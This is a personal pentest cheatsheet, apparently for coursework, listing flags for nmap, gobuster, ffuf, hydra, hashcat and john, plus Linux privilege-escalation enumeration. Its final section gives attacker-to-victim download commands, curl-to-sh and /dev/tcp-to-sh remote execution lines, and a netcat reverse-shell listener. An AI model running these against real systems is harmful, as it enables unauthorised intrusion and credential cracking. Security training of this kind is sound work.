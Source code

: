 ### My current Pentest Cheatsheet   
Updated: *15.05.2023*   
[See sources and credits](report.md#y-the-super-ultimate-hakk3r-che33tsheet-001-tee-tiivistelm%C3%A4-omista-ja-kavereiden-parhaista-tunketumistekniikoista-ole-t%C3%A4sm%C3%A4llinen-liit%C3%A4-komennot-mukaan-t%C3%A4m%C3%A4n-kohdan-vastaus-lienee-pidempi-kuin-aiempien-x-teht%C3%A4vien-viittaa-l%C3%A4hteisiin-t%C3%A4ss%C3%A4-alakohdassa-ei-tarvitse-ajaa-komentoja-tietokoneella)

**Nmap:**
```bash
Example: sudo nmap -A -p- <address> -oA filename 
Everything: -A
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p0-
Output (All Formats): -oA filename
```

**Gobuster**
```bash
# Directories
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u http://address

# Vhosts
gobuster vhost -w /usr/share/wordlists/dirb/small.txt -u address --append-domain
```

**Ffuf**
```bash
# Sites
ffuf -w /path/to/wordlist -u https://target/FUZZ

# Vhosts
ffuf -c -w /path/to/wordlist -u http://ffuf.io.fi -H "Host: FUZZ.ffuf.io.fi"

# Filter out response length
-fs <bytesize>
```

---
**Hydra:**
- SSH   
```bash
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P
Port: -s
Tasks: -T
```

**Searchsploit:**
```bash
Example: searchsploit SOMETHING
Read Exploit: -x
Copy to current location: -m
Update: -u
```

**SQLi Cheatsheet:** 
https://portswigger.net/web-security/sql-injection/cheat-sheet

---
**Hashcat:**
```bash
Hash Mode: -m <id>
   0 | MD5
1400 | SHA2-256 
1700 | SHA2-512

Attack Mode: -a <id>
0 for dictionary
---
3 for mask
Masks:
  ?l | low caps
  ?u | high caps
  ?d | numbers
  ?h | numbers + low caps
  ?H | numbers + high caps
  ?s | special characters
  
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Out File: -o
Usernames in Hashfile: --username
```

**John:**
```bash
john --wordlist=/path/file hash.file
```

**Wordlist Gen:**

**Cewl**
```bash
cewl -w wordlist <url>
```

**Crunch**
```bash
TBA
```

**From a file:**
**Python Script**
```bash
#!/bin/python3
import sys
import re

if len(sys.argv) != 2:
    print("Usage: wordlist_gen <filename>")
    sys.exit(1)

filename = sys.argv[1]

with open(filename, "r") as file:
    for line in file:
        # Replace non-alphanumeric characters with space
        line = re.sub(r"[^\w\s]", " ", line)
        # Split line into words and iterate over them
        for word in line.split():
            print(word)
```

**Sed**
```bash
sed 's/[^a-zA-Z0-9 ]//g; s/ /\n/g; /^$/d' <filename> | tr -s '\n'
```

---
**PrivEsc stuffz:**
```bash
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Writeable: find / -perm -o+w
```
**Find**
- Disable "permission denied and stuffs" printing:   
```bash
find / -name <something> 2>/dev/null
```

**Good place to put exploits, scripts and stuffs on victim:**   
```bash
 /dev/shm/
 /tmp/
```

**Send files from Attacker to Target:**     
```bash
sudo python -m http.server PORT #Host
wget ATTACKERIP:PORT/filename #Victim
```
OR:   
**Run script over the network:**   
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl <ip_address>/script.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < script.sh #Host
cat < /dev/tcp/<ip_address>/<port> | sh #Victim
```
Source: [Linpeass](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

**Reverse shells:**   
Host, netcat listener:    
```bash
nc -lvnp PORTNUMBER  
```
Shells:   
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

---
**Improved shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + z

stty raw -echo; fg
export TERM=xterm
```
